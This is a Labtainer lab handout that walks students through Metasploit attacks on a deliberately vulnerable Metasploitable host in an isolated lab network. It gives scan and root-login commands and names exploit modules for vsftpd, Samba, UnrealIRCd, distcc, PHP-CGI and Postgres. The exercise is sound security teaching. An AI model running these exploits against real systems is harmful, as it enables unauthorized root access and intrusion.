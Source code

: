 Metasploit Lab Exercise

**Overview**

This Labtainer exercise explores the use of the metasploit tool which is
installed on a Kali Linux system (attacker) and is meant to learn simple
penetration skills on a purposely vulnerable metasploitable host (victim).

Note: the attacker computer is configured to have IP address 192.168.1.3 while
the victim computer is 192.168.1.2

**Performing the lab**

The lab is started from the Labtainer working directory on your Linux host,
e.g., a Linux VM.

From there, issue the command:

labtainer metasploit

The resulting virtual terminal is connected to the attacker computer.

**Tasks**

1. **Verify connectivity between attacker and victim**

A simple ping from the attacker system will be sufficient.

ping 192.168.1.2

2. **Get a list of vulnerable services on the victim**

An 'nmap' scan of the victim will be sufficient.

nmap -p0-65535 192.168.1.2

3. V**ulnerably configured rlogin service (port 513)**

Remote login to the victim (with root privilege)

rlogin -l root 192.168.1.2

Display a 'root' file

cat /root/filetoview.txt

4. **Vulnerable ingreslock service (port 1524)**

Use telnet to access ingreslock service and obtain root privilege

telnet 192.168.1.2 1524

Display root file as above

5. **Vulnerable distccd service (port 3632)**

Start Metasploit console

sudo msfconsole

Note you will see a warning about a missing database, you can ignore that.

search for distccd exploit

search distccd

Use the exploit

use exploit/unix/misc/distcc_exec

View options related to exploit

options

Set the 'RHOST' option

set RHOST 192.168.1.2

Run the exploit

exploit

Note: when the exploit has succeeded, no prompt is shown but a shell is created

Display the root file as above

6. **Vulnerable IRC daemon (port 6667)**

Search for unreal_ircd exploit.

search unreal_ircd

Use the exploit;

use exploit/unix/irc/unreal_ircd_3281_backdoor

View and set options as necessary (RHOST option) run the exploit and display
root file.

7. **Vulnerable VSFtpd service (port 21)**

Search for vsftpd_234

search vsftpd_234

Use the exploit

use exploit/unix/ftp/vsftpd_234_backdoor

View and set options as necessary (RHOST option), run the exploit and display
root file

8. **Vulnerable Samba service (port 139)**

Search for samba usermap_script

search usermap_script

Use the exploit

use exploit/multi/samba/usermap_script

View and set options as necessary (RHOST option), run the exploit and display
root file

9. **Vulnerable HTTP (php) service (port 80)**

Search for php_cgi

search php_cgi

Use the exploit

use exploit/multi/http/php_cgi_arg_injection

View and set options as necessary (RHOST option) run the exploit

Note: when the exploit is succeeded a 'meterpreter' prompt is shown

From meterpreter prompt, drop to a shell

shell

Display the root file

10. **Vulnerable Postgres service (port 5432)**

Search for postgres_payload

search postgres_payload

Use the exploit

use exploit/linux/postgres/postgres_payload

View and set options as necessary (RHOST option)

run the exploit

Note: when the exploit is succeeded a 'meterpreter' prompt is shown

From meterpreter prompt, drop to a shell.

shell

Display root file

**Stop the Labtainer**

When the lab is completed, or you'd like to stop working for a while, run

stoplab

from the host Labtainer working directory. You can always restart the

Labtainer to continue your work. When the Labtainer is stopped, a

zip file is created and copied to a location displayed by the stoplab

command. When the lab is completed, send that zip file to the instructor.
